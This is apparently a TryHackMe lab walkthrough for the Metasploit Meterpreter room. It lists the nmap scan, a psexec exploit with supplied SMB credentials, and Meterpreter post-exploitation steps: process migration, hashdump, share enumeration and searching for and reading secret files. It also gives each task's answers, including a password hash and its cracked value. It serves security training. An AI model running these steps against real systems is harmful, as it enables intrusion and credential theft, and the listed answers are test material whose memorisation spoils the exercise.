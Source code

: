 # THM - Metasploit: Meterpreter

<br>

## Task 5

```shell
mkdir nmap
nmap -A -oN nmap/initial -p- 10.10.38.146

msfconsole
	use exploit/windows/smb/psexec
		show options
		set RHOSTS 10.10.38.146
		set LHOST 10.14.27.197
		set SMBUser ballen
		set SMBPass Password1
		run
```

### Task 5.1

```shell
			sysinfo
```

> ACME-TEST

### Task 5.2

> FLASH

### Task 5.3

```shell
			^Z
			y
		sessions
		back
		
	use post/windows/gather/enum_shares
		show options
		set SESSION 1
		run
```

> speedster

### Task 5.4

```shell
		sessions -i 1
			getpid
			ps
			migrate 772
			hashdump
```

> 69596c7aa1e8daee17f8e78870e25a5c

### Task 5.5

🧰 https://crackstation.net/

> Trustno1

### Task 5.6

```shell
			search -f secrets.txt
```

> c:\Program Files (x86)\Windows Multimedia Platform\

### Task 5.7

```shell
			cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```

> KDSvbsw3849

### Task 5.8

```shell
			search -f realsecret.txt
```

> c:\inetpub\wwwroot\

### Task 5.9

```shell
			cat "c:\inetpub\wwwroot\realsecret.txt"
```

> The Flash is the fastest man alive

<br>

